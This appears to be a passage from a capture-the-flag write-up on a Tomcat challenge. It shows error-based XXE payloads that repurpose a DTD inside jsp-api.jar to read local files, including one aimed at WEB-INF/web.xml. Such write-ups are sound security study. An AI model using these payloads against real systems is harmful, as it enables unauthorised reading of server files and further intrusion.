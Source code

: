 ##  We have a `tomcat` server

`PayloadsAllTheThings` links to a [page](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md) with even more XXE payloads with DTD files involved.

Remember, **all dtd files in the system were removed in the Dockerfile**...

But what about `.jar` files containing dtd files?

If we `docker exec -it artillery bash`, we can even look for them, they are in `/tomcat/lib`.

For example the file `/tomcat/lib/jsp-api.jar` exists. We can adapt one XXE payload given [here](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md):

```dtd
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/tomcat/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd">

    <!ENTITY % URI '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

To our target system:
```dtd
<!DOCTYPE message [
    <!--
    Our jsp-api.jar is located in /tomcat/lib.
    I did not find the /javax path in jsp-api.jar
    But thankfully, the jspxml.dtd was in the /jakarta path
    -->
    <!ENTITY % local_dtd SYSTEM "jar:file:/tomcat/lib/jsp-api.jar!/jakarta/servlet/jsp/resources/jspxml.dtd">

    <!-- By targeting the WEB-INF/web.xml file, we will have the generated flag route
    In the returned Java error returned by the server.
    -->
    <!ENTITY % URI '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:////tomcat/webapps/ROOT/WEB-INF/web.xml">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```
